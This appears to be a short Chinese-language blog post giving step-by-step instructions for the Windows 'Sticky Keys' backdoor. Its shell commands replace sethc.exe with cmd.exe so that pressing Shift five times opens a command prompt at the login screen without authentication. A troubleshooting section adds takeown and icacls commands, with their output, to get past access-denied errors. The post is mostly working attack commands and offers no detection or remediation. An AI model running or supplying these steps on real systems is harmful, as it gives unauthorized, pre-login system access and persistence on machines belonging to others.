

<span style="font-size: 40px; font-weight: bold;">粘滞键后门</span>

<div style="text-align: right;">

date: "2024-01-17"

</div>

# 前提说明

粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便 Shift 等键的组合使用。一般的电脑连按五次 shift 会出现粘滞键提示。

# 实验

粘滞键位置：`c:\windows\system32\sethc.exe`

## 基本使用

```shell
move sethc.exe sethc1.exe

copy cmd.exe sethc.exe
```




此时连按五次 shift 键即可启动 cmd，而且不需要登录就可以执行。

## 错误解决

若出现以下问题：

```shell
C:\Windows\system32>move sethc.exe sethc1.exe
拒绝访问。
移动了         0 个文件。
```

在确保权限没问题的情况下可以使用如下命令解决：

```shell
C:\Windows\system32>takeown /f sethc.exe

成功: 此文件(或文件夹): "C:\Windows\System32\sethc.exe" 现在由用户 "DESKTOP-2JRVAGS\c" 所有。

C:\Windows\system32>icacls sethc.exe /grant Administrators:F
已处理的文件: C:\Windows\System32\sethc.exe
已成功处理 1 个文件; 处理 0 个文件时失败

C:\Windows\system32>move sethc.exe sethc1.exe
移动了         1 个文件。

C:\Windows\system32>copy cmd.exe sethc.exe
已复制         1 个文件。
```
